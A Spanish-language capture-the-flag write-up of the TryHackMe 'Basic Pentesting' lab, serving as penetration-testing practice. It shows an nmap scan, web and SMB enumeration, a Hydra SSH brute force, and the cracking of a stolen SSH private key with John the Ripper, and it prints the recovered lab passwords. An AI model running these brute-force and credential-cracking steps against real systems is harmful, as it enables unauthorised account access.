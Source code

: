 ```yaml
---
tags:
  - eJPT
Category: Try Hack Me
title: Machine Basicpentesting
comments: "true"
image: /assets/img/machines/Basicpentesting/Basicpentestingbanner.jpeg
---
```

## Introducción
En esta máquina, realicé un proceso completo de pentesting que incluyó enumeración de puertos, análisis de servicios expuestos, enumeración web y fuerza bruta sobre el servicio SSH. Utilicé herramientas como Nmap, Gobuster y Enum4Linux para descubrir rutas ocultas y usuarios activos. Luego, con técnicas de fuerza bruta y explotación de credenciales, conseguí acceso a dos usuarios diferentes en el sistema. Finalmente, mediante la extracción y cracking de una clave privada SSH, logré escalar privilegios y acceder a información sensible, capturando la flag correspondiente.

## Skills
- Brute forcing
- Hash cracking

## Enumeración
Ejecutamos un escaneo de puertos específicos sobre los puertos 22, 80, 139 y 445. El objetivo era identificar servicios expuestos y obtener información relevante para continuar con la fase de enumeración, detectando servicios como SSH, HTTP y SMB:

```bash
❯ nmap -sCV -p 22,80,139,445 10.10.248.211
Nmap scan report for 10.10.248.211
Host is up (0.24s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 87:6a:17:ed:4a:7b:81:74:ef:cd:ae:28:d4:b8:05:4d (RSA)
|   256 a5:81:26:1c:44:55:c6:c0:f4:9a:71:e9:24:21:e3:04 (ECDSA)
|_  256 ac:fd:32:0c:a3:db:9f:76:0b:33:a1:b4:21:ae:92:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
| smb2-time: 
| 
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.85 seconds
```
### Enumeración WEB
Accedemos a la interfaz web del servidor a través del puerto 80, en donde se muestra un mensaje simple indicando que el sitio está en mantenimiento:

![1](/assets/img/machines/Basicpentesting/1.jpeg)


```bash
❯ gobuster dir -u http://10.10.248.211 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.248.211
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://10.10.248.211/development/]
```

Realicé una enumeración de directorios con el fin de identificar rutas ocultas en la aplicación web. Como resultado, encontré el directorio /development, lo que podría indicar la presencia de archivos de prueba o entornos de desarrollo expuestos.

![2](/assets/img/machines/Basicpentesting/2.jpeg)

Dentro de la ruta /development se encontraron dos archivos: dev.txt y j.txt. Estos archivos contienen una conversación interna del equipo, donde se destaca especialmente el servicio SMB, lo que sugiere que podría ser un punto relevante para la siguiente fase de la enumeración.


Tras identificar la importancia del servicio SMB, se procedió a realizar una enumeración exhaustiva sobre este servicio utilizando la herramienta enum4linux para obtener información detallada de los recursos compartidos, usuarios y posibles vulnerabilidades.

```bash
enum4linux -a 10.10.248.211
```

Mediante la enumeración con enum4linux, se descubrió la existencia de dos usuarios en el sistema: kay y jan, lo que permitió enfocar los siguientes pasos en obtener credenciales o acceder a recursos asociados a estas cuentas.

![3](/assets/img/machines/Basicpentesting/3.jpeg)

## Brute Forcing
Posteriormente, realicé un ataque de fuerza bruta contra el servicio SSH utilizando la herramienta Hydra, enfocándome en el usuario jan y utilizando el popular diccionario rockyou.txt para intentar descubrir la contraseña.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.248.211 ssh
```

Gracias al ataque de fuerza bruta, logré obtener la contraseña armando para el usuario jan.

```plaintext
Password: armando
```

Con la contraseña obtenida, accedí al servicio SSH usando el usuario jan. Una vez dentro, confirmé los privilegios del usuario ejecutando el comando id, el cual mostró que jan tiene un UID y GID propios, perteneciendo al grupo principal de usuario.

```bash
ssh jan@10.10.248.211
jan@ip-10-10-248-211:~$ id
uid=1001(jan) gid=1001(jan) groups=1001(jan)
```

Para continuar con la enumeración local, transferí la herramienta linPEAS desde mi máquina local hacia el directorio /tmp del servidor objetivo utilizando SCP, con el fin de identificar posibles vectores de escalada de privilegios.

```bash
scp linpeas.sh jan@10.10.248.211:/tmp
```

Después de transferir linPEAS, le asigné permisos de ejecución y lo lancé para realizar un escaneo automático en busca de posibles vulnerabilidades y configuraciones erróneas que pudieran permitir la escalada de privilegios.

```bash
jan@ip-10-10-248-211:/tmp$ chmod +x linpeas.sh
jan@ip-10-10-248-211:/tmp$ ./linpeas.sh
```

## Hash Cracking
La ejecución de linPEAS reveló la presencia de una clave privada SSH (id_rsa) perteneciente al usuario kay, lo cual podría facilitar el acceso a dicha cuenta si la clave no estuviera protegida por contraseña.

![4](/assets/img/machines/Basicpentesting/4.jpeg)

Luego de obtener la clave privada id_rsa del usuario kay, procedí a convertirla a un formato compatible con John the Ripper usando la herramienta ssh2john para intentar crackear la contraseña de la clave.

```bash
ssh2john kay_id_rsa > key.txt  
```

Seguidamente, utilicé John con el diccionario rockyou.txt para intentar descifrar la contraseña de la clave privada obtenida.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

Con esta técnica logré obtener la contraseña beeswax para la clave privada del usuario kay.

```bash
Password: beeswax
```

Con la contraseña recuperada, accedí por SSH como el usuario kay. Dentro de su directorio encontré un archivo llamado pass.bak, que contenía una contraseña aparentemente robusta y conforme a políticas de seguridad establecidas.

```bash
ssh -i kay_id_rsa kay@10.10.248.211
kay@ip-10-10-248-211:~$ ls
pass.bak
kay@ip-10-10-248-211:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

